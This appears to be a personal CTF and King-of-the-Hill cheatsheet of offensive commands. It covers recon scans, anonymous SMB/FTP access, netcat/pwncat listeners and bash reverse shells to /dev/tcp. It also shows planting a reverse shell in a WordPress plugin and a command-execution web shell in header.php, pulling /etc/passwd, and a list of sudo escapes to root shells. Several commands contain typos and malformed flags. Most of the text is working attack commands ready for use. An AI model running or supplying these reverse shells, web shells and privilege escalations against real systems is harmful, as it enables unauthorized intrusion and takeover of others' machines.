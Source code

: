 <h1>PFORM - CTF / KOTH - Cheatsheet</h1>

<h2>Change IP on all scripts in a folder</h2>

If you like me have a folders with reverse-shells and scripts for your CTF / Koth needs,

and your IP changes just before the game starts, and no script have the correct ip.

<b>pform@attacker~: </b><code>cd ~/super-ninja-scripts/</code>

<b>pform@attacker~script-folder/:<code> grep -rl 10.10.10.10 * | xargs sed -i 's/10.10.10.10/20.20.20.20/g'</code>

<b>In this example 10.10.10.10 is the old-ip and 20.20.20.20 is the new-ip.</b>

<h2>RECON</h2> 

<b>pform@attacker~: </b><code>rustscan -A 10.10.10.10</code>

<b>pform@attacker~: </b><code>sudo nmap -Pn -sV -sC -oN nmap.log 10.10.10.10</code>

<b>pform@attacker~: </b><code>gobuster -dir -e php,html,htm,txt,log,conf,flag -u http://10.10.10.10 -w /usr/share/wordlists/directory-list-2.3-medium.txt</code>

<b>pform@attacker~: </b><code>nikto -Display 1234EP -o report.html -Format htm -Tuning 123bde -host 10.10.10.10</code>

<h2>SMB</h2>

<b>pform@attacker~: </b><code>smbmap -H 10.10.10.10</code>

<b>pform@attacker~: </b><code>smbclient -L \\\\10.10.10.10</code>

<b>pform@attacker~: </b><code>smbclient -L \\\\10.10.10.10\\C$ -U guest -W WORKGROUP</code>


<h2>FTP</h2>

Is the host vuln to anonymous login?

<b>pform@attacker~: </b><code>ftp 10.10.10.10</code>

<b>pform@attacker~: </b>Login: <code>anonymous</code> Password: <code>anonymous</code>

Dont forget to check for hidden directories like this:

<b>pform@attacker~: </b><code>ls -la</code>

drwxr-xr-x pform pform 0069 Dec 32 00:00 .

drwxr-xr-x pform pform 0069 Dec 32 20:00 ..

drwxr-xr-x pform pform 0069 Dec 32 00:00 ... <b>     < - - - - - - - - - - - - ( 3 dots )</b>

-rw-r--r-x pform pform 0069 Dec 32 00:00 random-stuff.txt


<h2>RDP</h2>

I think remmina is slow, compared to xfreerdp. 

<b>+clipboard</b> makes it possible to copy from <b>attacker machine</b> to <b>victim machine</b>

<b>pform@attacker~: </b><code>xfreerdp +clipboard +window-drag /u:username /p:password /v:10.10.10.10</code>

<h2>SSH</h2>

<b>pform@attacker~: </b><code>ssh user@10.10.10.10 -p 22</code>

<b>pform@attacker~: </b><code>ssh -i id_rsa user@10.10.10.10 -p 22</code>

<h1>Listners</1>

<h2>NETCAT</h2>

<b>pform@attacker~: </b><code>nc -lnvp 5555</code>

<h2>PWNCAT</h2>

<code>git clone https://github.com/calebstewart/pwncat.git; cd pwncat</code>

<b>pform@attacker~: </b><code>pwncat -l -p 5555</code>
  
I prefer pwncat as you can just press<b>"CTRL+D"</b> and download and upload files like this:

<b>pform@local~: </b><code>download /etc/passwd</code>

<b>pform@local~: </b><code>upload ~/super-ninja-scripts/hightech-privesc-0day.py</code>

Then Press <b>"CTRL+D"</b> again to return to the reverse-shell.

<h1>Revers-Shell</h1>

<h2>Bash</h2>

/bin/bash -i >& /dev/tcp/10.10.10.10/5555

/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.10.10/5555 0>&1'

 Wordpress example 1.
 
+-------------------+

After logging in to the admin panel open the Plugin editor, in the bottom of a plugin.

Add <code>/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.10.10/5555 0>&1'</code>

 Wordpress example 2.
 
+-------------------+

Edit "header.php"

Under php tag

<code>echo system($ REQUESTS['cmd']);</code>

change request metod by left click

open upp burp and run command in the bottom of the page:

<code>cmd=whomai</code>

<code>cmd=/bin/bash -i >& /dev/tcp/10.10.10.10/5555 0>&1</code>

<h1>Privesc</h1>


GTFObins <li>https://gtfobins.github.io/</li>

GTFObins is collection of sudo, SUID and other bypass techniques that can be used for linux.
<b>sudo -l</b> lists all commands the user can use with sudo permissions


<h2>From rbash to bash</h2>

Just ssh to bash (ssh to bash)

ssh user@10.10.10.10 -p 22 -t "bash -l"

<h2>GTFObins</h2>

vim 
<code>sudo vim</code> followed by <code>:!bash</code> (Can also edit the sudoers file to include all)

nmap
<code>sudo nmap --interactive</code> followed by <code>!sh</code>

iftop
<code>sudo iftop</code> followed by <b>shift+!</b> and Command> <code>/bin/sh</code>

find
<code>sudo find . -exec /bin/sh \; -quit</code>

nano
<code>sudo nano</code> The Press <b>"CTRL+R CTRL+X"</b><code>reset sh 1>&0 2>&0</code> Can edit the sudoers file

man
<code>sudo man</code>followed by <code>!/bin/sh</code>

awk
<code>sudo awk 'BEGIN {system("/bin/sh")}'</code>

less
<code>sudo less /etc/profile followed by !/bin/sh</code>

ftp
<code>sudo ftp</code>followed by <code>!/bin/sh</code>

more
<code>TERM= sudo more /etc/profile</code> followed by <code>!/bin/sh</code>
